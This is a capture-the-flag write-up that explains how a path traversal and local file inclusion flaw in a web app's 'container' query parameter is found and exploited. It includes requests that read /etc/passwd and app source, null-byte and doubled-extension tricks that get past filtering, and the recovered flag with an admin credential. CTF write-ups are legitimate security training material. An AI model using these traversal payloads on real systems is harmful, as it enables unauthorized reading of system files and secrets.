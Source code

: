 # About
"This is the story of how I defined your schema."
The flag is in secrets.txt

![image](https://github.com/user-attachments/assets/2b26c3d3-b5b2-459f-9174-3be3318c94c2)


# Solve
Based on this and the URLs when making searches, I knew that I would be looking for some sort of LFI to read the flag.
`/select?record=*&container=employees`

![](Images/Pasted%20image%2020250427094326.png)

Which I was able to get working with the following.

```
/select?record=*&container=/etc/passwd
```

Now we just have to get secrets to read.
```
/select?record=*&container=../secrets.txt
```

The above query returned invalid for two reasons, one because the application is doing some form of sanitization for relative paths `../` but could be bypassed with `/../` and issues with the removal of the .txt extension when trying to read the file.

I was able to crash the application to leak more information to confirm some of this with the following search parameters.
```
/select?record=*&container/asd
```

![](Images/Pasted%20image%2020250428111241.png)

After testing some various ways of bypassing the file read I was able to determine a way to get any file type to read.
```
.[EXT].%00
.[EXT].[EXT]
/select?record=*&container=/../../../../app/app.py.py
```

Knowing that I can parse the secrets.txt flag by testing in various directories for the file.
```
/select?record=*&container=/../../../../app/secrets.txt.%00
```

![](Images/Pasted%20image%2020250427130837.png)

```
CIT{235da65aa6444e27} admin:9f3IC3uj9^zZ
```
